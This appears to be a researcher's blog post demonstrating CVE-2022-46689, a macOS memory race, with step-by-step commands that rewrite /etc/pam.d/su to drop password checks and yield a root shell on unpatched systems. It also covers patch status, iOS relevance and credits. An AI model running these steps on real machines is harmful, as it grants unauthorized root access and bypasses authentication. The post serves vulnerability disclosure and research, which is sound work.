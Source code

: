 ```yaml
---
title: Get root on macOS 13.0.1 with CVE-2022-46689, the macOS Dirty Cow bug
categories: macos
permalink: /macdirtycow/
---
```


Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

## Usage

On a macOS 13.0.1 / 12.6.1 (or below) machine, clone the extracted test case:

git clone [https://github.com/zhuowei/MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo)

Then run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the `/System` volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Should I be worried?

If you installed the latest macOS update (macOS 13.1 / 12.6.2 / 11.7.2), you should be fine.

If you haven't, do it now.

## Will this be useful for iOS jailbreak?

Probably not.

This - as far as I can tell - affects userspace processes only. Jailbreaks require a kernel exploit. (The Apple Security release notes says that this bug may allow "arbitrary code with kernel privileges", but I can't see how.)

You might still do something cool on iOS with this, but I'm not sure what you'd overwrite: codesigning should protect all executables and libraries. (I have not tested this: let me know if you find anything!)

## Credits

- Ian Beer of [Project Zero](https://googleprojectzero.blogspot.com/) for finding this issue, and for finding [other similar issues in XNU's virtual memory](https://bugs.chromium.org/p/project-zero/issues/detail?id=2337#c3). Looking forward to the writeup for this issue.
- Apple for the [test case](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c). (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
- [@WangTielei](https://twitter.com/WangTielei/status/1603963997618855937) for sharing a related issue and answering my questions.

## Changelog

2022-12-17:

- clarified that "jailbreak" refers to iOS.
- clarified that the Project Zero issue link goes to a different issue than this one.